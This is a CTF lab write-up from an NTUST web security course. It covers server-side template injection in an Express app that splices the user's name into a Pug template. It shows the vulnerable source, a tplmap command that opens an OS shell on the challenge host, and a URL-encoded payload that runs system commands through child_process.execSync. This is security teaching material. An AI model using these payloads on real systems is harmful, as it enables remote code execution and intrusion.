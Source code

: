 ```yaml
---
title: Simple Web 0x22(Lab - Pug)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/SSTI"
---
```


# Simple Web 0x22(Lab - Pug)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8008

## Source code
:::spoiler
```javascript=
const express = require('express');
const pug = require('pug');

const app = express();

const template = `
h1 Hello %NAME%
form(method='GET' action='/')
  div
    label(for='nickname') Name:
    input#nickname(type='text', placeholder='Nickname' name='name')
    button(type='submit') Submit 
  a(href='/source') Source Code
`;

app.get('/', (req, res) => {
    const name = (req.query.name ?? 'Anonymous').toString();
    if (name.includes('{')) return res.send('Nice try');
    let html = pug.render(template.replace('%NAME%', name));
    res.set('Content-Type', 'text/html');
    res.send(html);
});

app.get("/source", (_, res) => {
    res.sendFile(__filename);
});

app.listen(3000, () => console.log(':3000'));

```
:::

## Exploit - `tqlmap`
```bash!
$ ./tplmap.py --engine pug --os-shell -u "http://h4ck3r.quest:8008/?name=bob"
```

* Using wireshark to trace the payload
You must let the template by like:
    ```javascript!
    const template = `
    h1 Hello %NAME%
    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=', 'base64').toString())
    form(method='GET' action='/')
      div
        label(for='nickname') Name:
        input#nickname(type='text', placeholder='Nickname' name='name')
        button(type='submit') Submit 
      a(href='/source') Source Code
    `;
    ```
    Including a new line and an equal sign
    Payload:
    `%0A%3D%20global.process.mainModule.require%28%27child_process%27%29.execSync%28Buffer%28%27bHM%3D%27%2C%2B%27base64%27%29.toString%28%29%29`
    which is
    ```

    = global.process.mainModule.require('child_process').execSync(Buffer('bHM=',+'base64').toString())
    ```
* Note that `bHM=` is command `ls` in base64 format

## Reference
[关于SSTI注入的二三事](https://xz.aliyun.com/t/11090)
[【SSTI模块注入】SSTI+Flask+Python（下）：绕过过滤](https://blog.51cto.com/u_15414689/5530904)
[0xdbe-appsec/ssti-express-pug](https://github.com/0xdbe-appsec/ssti-express-pug)
[Tplmap](https://github.com/epinna/tplmap/blob/master/README.md)
[[Linux系統] Ubuntu 安裝 Node.js](https://andy6804tw.github.io/2019/09/23/ubuntu-indtall-nodejs/)